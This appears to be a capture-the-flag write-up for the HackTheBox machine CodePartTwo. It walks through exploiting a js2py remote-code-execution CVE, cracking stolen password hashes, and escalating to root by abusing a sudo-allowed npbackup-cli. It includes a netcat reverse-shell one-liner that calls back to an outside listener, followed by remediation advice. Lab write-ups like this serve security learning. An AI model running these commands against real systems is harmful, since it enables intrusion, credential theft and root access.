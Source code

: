 # CTF Write-up — CodePartTwo from hackthebox.com

> **Summary:** 
> **Difficulty:** Easy  
> **HTB:** https://app.hackthebox.com/machines/692
>
![Tactics](https://img.shields.io/badge/Tactics-SSTI%20%7C%20Payload%20Dev%20%7C%20RCE-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Burp%20%7C%20Nmap-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.10.11.82 -oN nmap.txt
```
- Results (high-level):
  - `8000/tcp` — HTTP (Gunicorn)
  - `22/tcp` — SSH

### Web site analysis
- after creating an account and logging in we find a ![code execution page](evidences/run_code_website.png) 
- we also find a download to the source code running this website: ![download button](evidences/download_app.png)

### Source code analysis
- we download the source code and analyze the `app.py` file. See `evidences/app.py`.  
- analyzing the file we find that the code provided by the user is ran through the `js2py` library: ![js2py code](evidences/js2py.png)
- from the requirements.txt file we find that the version is `js2py 0.74`

### CVE research
- there's a critical CVE correlated to js2py: [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397)
- there're also several PoC exploits: [PoC in python](https://github.com/advisories/GHSA-r9pp-r4xf-597r)

---

## 2. Resource development

### Reverse shell
- since the PoC allow us to do a RCE we prepare a reverse shell from [reverse shell generator](https://www.revshells.com/):   
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 9000 >/tmp/f
```

### Listener Socket
- we start a socket listener to catch the remote connection that will be started:
``` bash
nc -lvnp 9000
```

---

## 3. Initial access
### App user access
- once everything is ready we just need to upload the PoC, run the code and get initial access: ![initial access](evidences/initial_access.png)

### System enumeration
- we accessed as user `app`, so we need to gain access as a more priviledge user
- navigating the system we find the `user.db` file and download it locally. See `evidences/user.db`: ![users.db download](evidences/users_db_download.png)  

### Users.db enumeration
- opening the database and searching in it let us find the users hashes: ![users hashes](evidences/user_hash.png)

### Hash cracking
- we can crack the hash using John the ripper:
``` bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```
![cracked hash](evidences/cracked_hash.png)

### User Flag
- we can now ssh into the machine:
``` bash
ssh marco@10.10.11.82
```
![user flag](evidences/user_flag.png)

---

## 4. Privilege escalation
### Linux enumeration
- we use `sudo -l` to list cmds that the user can run as privileged user and find npbackup-cli: ![sudo cmds](evidences/sudo_cmds.png)
- we also find the config file for npbackup: ![npbackup config](evidences/npbackup_config.png)

### Npbackup hack
- we create a version of npbackup config that backup /root folder instead of /home/app/app: ![modified npbackup config](evidences/root_config.png)
- than we create a backup of the folder:
``` bash
npbackup-cli -c root.conf -b
```
- now we can dump file's content form this backup:
``` bash
npbackup-cli --dump /root/root.flag
```
![root flag](evidences/root_flag.png)

---

## 5. Findings & recommendations
### Key findings
| # | Category                                    | Description                                                                                            | Impact   |
| - | ------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------- |
| 1 | **Remote Code Execution (RCE)**             | The `js2py` library (v0.74) was vulnerable to arbitrary code execution (CVE-2024-28397).               | Critical |
| 2 | **Insecure Configuration Management**       | The web app allowed users to upload or execute arbitrary code, leading to exploitation.                | High     |
| 3 | **Weak Credential Storage**                 | Password hashes were stored unsalted in a SQLite database.                                             | Medium   |
| 4 | **Privilege Escalation via Backup Utility** | `npbackup-cli` was executable with elevated privileges and could be reconfigured to access root files. | High     |


### Immediate remediation (high-level)
1. **Patch and Dependency Management** Update js2py to >= 0.74.1 or any version where CVE-2024-28397 is mitigated.

2. **Secure Code Execution Handling** Never directly evaluate user-supplied input in server-side logic (especially with libraries like js2py, exec, eval, or template rendering engines).

3. **Credential and Database Security** Store credentials using strong hashing algorithms (e.g., bcrypt, argon2) with salt.

4. **Privilege Management** Restrict usage of elevated binaries (sudo access) to necessary commands only.

5. **System Hardening and Monitoring** Enable AppArmor/SELinux profiles to prevent command execution escalation.    


---